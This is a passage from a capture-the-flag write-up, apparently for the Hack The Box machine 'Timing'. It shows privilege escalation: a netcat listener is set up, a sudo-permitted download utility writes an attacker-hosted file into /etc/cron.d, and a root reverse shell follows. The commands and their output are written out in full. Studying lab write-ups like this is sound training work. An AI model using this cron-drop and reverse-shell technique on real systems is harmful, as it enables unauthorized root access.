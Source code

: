 Now we just have to set up our listener.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Cd into `/etc/cron.d/` and download the cronjob using `/usr/bin/netutils`.

```
aaron@timing:~$ cd /etc/cron.d
aaron@timing:/etc/cron.d$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.14.59/legit
Initializing download: http://10.10.14.59/legit
File size: 71 bytes
Opening output file legit
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 71 byte in 0 seconds. (0.69 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> ^C
```

After about a minute later we get a connection on our listener as the root user.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.189.14.
Ncat: Connection from 10.129.189.14:48750.
bash: cannot set terminal process group (7414): Inappropriate ioctl for device
bash: no job control in this shell
root@timing:~# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
root@timing:~#
```
